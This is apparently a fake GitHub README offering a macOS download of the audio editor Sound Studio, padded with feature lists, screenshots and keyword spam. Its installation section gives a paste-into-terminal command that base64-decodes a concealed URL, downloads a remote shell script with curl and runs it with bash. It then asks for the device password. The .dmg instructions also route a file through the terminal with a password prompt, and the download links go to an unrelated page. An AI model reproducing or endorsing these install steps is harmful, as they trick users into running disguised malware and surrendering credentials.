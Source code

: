 # 🎧 Sound Studio — Professional Audio Recording & Editing for macOS

**Sound Studio** is a full-featured audio recording and editing application for macOS, offering a clean interface and powerful tools for music production, podcasting, voice-over work, and general sound editing. Whether you're recording vocals, editing multi-track sessions, or mastering a final mix, Sound Studio delivers precision and ease-of-use for Mac users.

From musicians to content creators, Sound Studio is trusted by audio professionals and hobbyists alike to handle everything from quick edits to complex soundscapes.

---

## ✅ Download Sound Studio for macOS  
[![Download Sound Studio](https://img.shields.io/badge/Download-Sound_Studio-darkblue)](https://shuziktobehuman.github.io/huja/SoundStudio)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is Sound Studio?

Sound Studio is an intuitive and robust macOS application that allows users to record, edit, and master digital audio. Designed by Felt Tip Inc., it provides waveform editing, audio effects, high-resolution recording, and support for a wide range of formats. Whether you're working with voice, instruments, or environmental audio, Sound Studio lets you fine-tune every detail.

It’s a great choice for podcasters, musicians, audiobook producers, educators, and anyone who needs a reliable, Mac-native audio tool.

---

## ✨ Features

- 🎙 Record high-quality audio from any input device  
- 🎚 Multi-track editing and waveform manipulation  
- 🔊 Apply built-in effects like EQ, reverb, pitch shift, and more  
- 💽 Export in a wide range of formats including MP3, AAC, AIFF, and WAV  
- 🧰 Non-destructive editing and real-time effect previews  
- 🎧 Perfect for podcasts, music, interviews, and voice-overs  
- ⚙️ Supports sample rates up to 192kHz and 24-bit audio  
- 🖥 macOS-optimized UI with full Apple Silicon support  

---

## 💡 Why Use Sound Studio?

- 🧑‍🎤 Ideal for musicians, podcasters, and voice artists  
- 🧠 Easy to use yet packed with professional-grade tools  
- 🎼 Great for both quick edits and detailed audio mastering  
- 🔊 Clean interface with real-time metering and monitoring  
- 📡 Trusted by creators and educators across macOS platforms  

---

[![Download Sound Studio](https://img.shields.io/badge/Download-Sound_Studio-darkblue)](https://shuziktobehuman.github.io/huja/SoundStudio)

---

## 🖼 Preview

![Sound Studio Screenshot 1](https://www.felttip.com/ss/img/screenshot-1.png)  
![Sound Studio Screenshot 2](https://mac-cdn.softpedia.com/screenshots/sound-studio_8.jpg)

---

## 📌 Tags

audio recording studio near me, vocal booth, soundproof booth, sound booth, portable sound booth,  
recording booth, aeros loop studio, moog sound studio, portable recording booth, neumann ndh 20, vocaster,  
aeros looper, sound forge audio studio, m audio bx8, vocal booth portable, tlm 49, m audio bx5 d3,  
arturia audiofuse, m audio bx4, recording studio booth, sennheiser hd 200 pro, m audio bx8 d3,  
vocal recording booth, røde nt usb mini, song recording studio, m audio bx3,  
Sound Studio mac, Sound Studio mac download, Sound Studio download mac
